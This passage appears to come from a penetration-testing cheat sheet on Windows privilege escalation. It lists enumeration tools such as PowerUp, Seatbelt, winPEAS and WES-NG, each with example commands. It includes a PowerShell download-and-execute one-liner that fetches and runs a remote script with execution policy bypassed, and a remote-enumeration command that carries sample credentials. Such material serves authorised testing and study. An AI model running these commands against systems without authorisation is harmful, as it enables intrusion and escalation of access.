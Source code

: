     * [MS15-051 (Client Copy Image)](#ms15-051---microsoft-windows-2003--2008--7--8--2012)
    * [MS16-032](#ms16-032---microsoft-windows-7--10--2008--2012-r2-x86x64)
    * [MS17-010 (Eternal Blue)](#ms17-010-eternal-blue)
    * [CVE-2019-1388](#cve-2019-1388)
* [EoP - $PATH Interception](#eop---path-interception)
* [References](#references)

## Tools

- [PowerSploit's PowerUp](https://github.com/PowerShellMafia/PowerSploit)
    ```powershell
    powershell -Version 2 -nop -exec bypass IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1'); Invoke-AllChecks
    ```
- [Watson - Watson is a (.NET 2.0 compliant) C# implementation of Sherlock](https://github.com/rasta-mouse/Watson)
- [(Deprecated) Sherlock - PowerShell script to quickly find missing software patches for local privilege escalation vulnerabilities](https://github.com/rasta-mouse/Sherlock)
    ```powershell
    powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File Sherlock.ps1
    ```
- [BeRoot - Privilege Escalation Project - Windows / Linux / Mac](https://github.com/AlessandroZ/BeRoot)
- [Windows-Exploit-Suggester](https://github.com/GDSSecurity/Windows-Exploit-Suggester)
    ```powershell
    ./windows-exploit-suggester.py --update
    ./windows-exploit-suggester.py --database 2014-06-06-mssb.xlsx --systeminfo win7sp1-systeminfo.txt 
    ```
- [windows-privesc-check - Standalone Executable to Check for Simple Privilege Escalation Vectors on Windows Systems](https://github.com/pentestmonkey/windows-privesc-check)
- [WindowsExploits - Windows exploits, mostly precompiled. Not being updated.](https://github.com/abatchy17/WindowsExploits)
- [WindowsEnum - A Powershell Privilege Escalation Enumeration Script.](https://github.com/absolomb/WindowsEnum)
- [Seatbelt - A C# project that performs a number of security oriented host-survey "safety checks" relevant from both offensive and defensive security perspectives.](https://github.com/GhostPack/Seatbelt)
    ```powershell
    Seatbelt.exe -group=all -full
    Seatbelt.exe -group=system -outputfile="C:\Temp\system.txt"
    Seatbelt.exe -group=remote -computername=dc.theshire.local -computername=192.168.230.209 -username=THESHIRE\sam -password="yum \"po-ta-toes\""
    ```
- [Powerless - Windows privilege escalation (enumeration) script designed with OSCP labs (legacy Windows) in mind](https://github.com/M4ximuss/Powerless)
- [JAWS - Just Another Windows (Enum) Script](https://github.com/411Hall/JAWS)
    ```powershell
    powershell.exe -ExecutionPolicy Bypass -File .\jaws-enum.ps1 -OutputFilename JAWS-Enum.txt
    ```
- [winPEAS - Windows Privilege Escalation Awesome Script](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS/winPEASexe)
- [Windows Exploit Suggester - Next Generation (WES-NG)](https://github.com/bitsadmin/wesng)
    ```powershell
    # First obtain systeminfo
    systeminfo
    systeminfo > systeminfo.txt
    # Then feed it to wesng
    python3 wes.py --update-wes
    python3 wes.py --update
    python3 wes.py systeminfo.txt